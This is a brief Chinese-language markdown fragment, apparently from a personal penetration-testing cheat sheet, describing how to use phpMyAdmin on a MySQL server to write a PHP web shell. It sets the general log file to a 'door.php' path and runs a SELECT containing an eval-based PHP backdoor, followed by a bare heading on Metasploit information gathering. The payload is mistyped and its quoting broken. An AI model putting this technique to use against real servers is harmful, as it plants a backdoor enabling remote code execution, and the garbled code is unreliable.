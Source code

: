 ## phpmyadmin

> `show variables like 'secure_file_priv'`
>
> 为null的时候：
>
> >  打开日志记录
> >
> > `set global general_log="ON";`
> >
> > `set global general_log_file="C:/phpstudy/.../door.php"`
> >
> > `select "<?php enval($_post[id]);?>`操作会保存在日志文件中
> >
> > 
> >
> > 
> >
> > 
> >
> > 
> >
> > )'

### MSF信息收集

> ![image-20200829112552345](提权和内网渗透/image-20200829112552345.png)